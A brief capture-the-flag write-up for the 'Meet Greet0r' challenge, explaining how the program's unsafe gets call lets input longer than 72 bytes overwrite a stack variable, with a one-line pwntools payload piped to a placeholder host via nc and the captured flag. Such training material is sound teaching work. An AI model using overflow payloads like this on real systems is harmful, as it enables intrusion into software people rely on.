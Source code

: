 # Meet Greet0r
## Challenge Description
Meet Greet0r! He's a cute little program that is absolutely just DYING to meet new people.

## Files
`distrib` is the challenge files given to the participants and `Program` is the challenge host source files.

## Solution

Analyse the C code given, notice use of insecure `gets` function used. This allows us to overflow the `loopCount` variable if we pass an input to `gets` that is of length > 72 (as we need to round 52 to the nearest multiple of 16 making it 64, then add 8 for leave and ret stack space).

Use the below solution to overwrite 

Solution code:
```bash
# prints 'a' 72 times to reach loopCount on stack, then change its value to 6, afterwards pipe to Greet0r
python2 -c "import pwn; print 'a'*72+pwn.p64(0x06)" | nc ip port
```

Flag
```
NYP{m3ss1ng_w1th_f1l3_d3scr1pt0rs}
```